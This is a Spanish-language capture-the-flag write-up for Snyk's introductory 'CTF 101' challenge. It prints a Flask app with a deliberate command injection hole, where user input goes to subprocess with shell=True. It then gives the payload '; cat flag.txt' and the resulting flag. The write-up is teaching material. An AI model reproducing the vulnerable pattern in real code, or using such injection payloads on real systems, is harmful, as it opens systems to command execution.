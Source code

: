 +++
date = "2025-03-05"
title = "Snyk Fetch The Flag - CTF 101"
author = "Javier Olmedo"
toc = false
+++

[![/images/snyk_fetch_the_flag_ctf_101/snyk_fetch_the_flag_ctf_101_banner.png](/images/snyk_fetch_the_flag_ctf_101/snyk_fetch_the_flag_ctf_101_banner.png)](/images/snyk_fetch_the_flag_ctf_101/snyk_fetch_the_flag_ctf_101_banner.png)

Este reto está diseñado como una **introducción a los CTFs** (Capture The Flag). Es un desafío sencillo que permite familiarizarse con la explotación de vulnerabilidades en aplicaciones web.

Al analizar el código fuente proporcionado, observamos que se trata de una aplicación web desarrollada con **Flask (Python)**, cuyo código es el siguiente:

```python
from flask import Flask, render_template, request, redirect, flash
import subprocess

app = Flask(__name__)
app.secret_key = "supersecretkey"

@app.route("/", methods=["GET", "POST"])
def index():
    if request.method == "POST":
        name = request.form.get("name", "").strip()

        if not name:
            flash("Error: Name cannot be empty.", "error")
            return redirect("/")

        try:
            # I sure hope no one tries to run any commands by injecting here...
            output = subprocess.check_output(f"echo {name}", shell=True, text=True, stderr=subprocess.STDOUT)
            flash(f"Hello, {output.strip()}! Good luck!", "success")
            # ...alright, the challenges won't be this obvious on game day, but I hope it gives you a good idea of how the game is played!
        except subprocess.CalledProcessError as e:
            flash(f"Error: {e.output.strip()}", "error")

        return redirect("/")

    return render_template("index.html")

if __name__ == "__main__":
    app.run(host="0.0.0.0", port=5000)
```

## 🔍 ¿Dónde está la vulnerabilidad?

El problema principal radica en el siguiente fragmento de código:

```python
output = subprocess.check_output(f"echo {name}", shell=True, text=True, stderr=subprocess.STDOUT)
```

Aquí, el valor de `name` (proveniente de la entrada de usuario sin sanitizar) se concatena directamente dentro de un comando que se ejecuta con `subprocess.check_output()`, utilizando el argumento `shell=True`, por lo que podemos concatener un segundo comando con el payload `; <comando>`

## 💣 Explotación

Para obtener la flag, simplemente enviamos el siguiente payload como valor de `name`:

```bash
; cat flag.txt
```

[![/images/snyk_fetch_the_flag_ctf_101/snyk_fetch_the_flag_ctf_101_001.png](/images/snyk_fetch_the_flag_ctf_101/snyk_fetch_the_flag_ctf_101_001.png)](/images/snyk_fetch_the_flag_ctf_101/snyk_fetch_the_flag_ctf_101_001.png)

[![/images/snyk_fetch_the_flag_ctf_101/snyk_fetch_the_flag_ctf_101_002.png](/images/snyk_fetch_the_flag_ctf_101/snyk_fetch_the_flag_ctf_101_002.png)](/images/snyk_fetch_the_flag_ctf_101/snyk_fetch_the_flag_ctf_101_002.png)

## 🚩 Flag

```txt
flag{3b74fc0628299870edabc5072b25cf78}
```